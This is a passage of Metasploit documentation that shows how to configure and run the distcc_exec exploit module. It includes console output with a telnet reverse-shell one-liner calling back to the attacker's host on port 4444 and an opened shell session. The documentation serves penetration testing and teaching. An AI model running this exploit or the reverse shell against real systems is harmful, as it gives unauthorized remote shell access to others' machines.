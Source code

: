 For this scenario you can manually set each of the required option values (`RHOST`, `LHOST`, and optionally `PAYLOAD`):

```msf
msf exploit(unix/misc/distcc_exec) > set rhost 192.168.123.133
rhost => 192.168.123.133
msf exploit(unix/misc/distcc_exec) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
```

The `run` command will run the module against the target, there is also an aliased `exploit` command which will perform the same action:

```msf
msf exploit(unix/misc/distcc_exec) > run

[+] sh -c '(sleep 4375|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo BmpMGFX6NDVlh5h0;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "BmpMGFX6NDVlh5h0\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.133:48578) at 2023-09-21 14:42:42 +0100

whoami
daemon
```

New in Metasploit 6 there is added support for running modules with options set as part of the run command:

```msf
msf exploit(unix/misc/distcc_exec) > run rhost=192.168.123.133 lhost=192.168.123.1 payload=cmd/unix/reverse

[+] sh -c '(sleep 4305|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QqL1Uzom6eBFilyL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QqL1Uzom6eBFilyL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.133:52314) at 2023-09-21 13:52:40 +0100

whoami
daemon
```
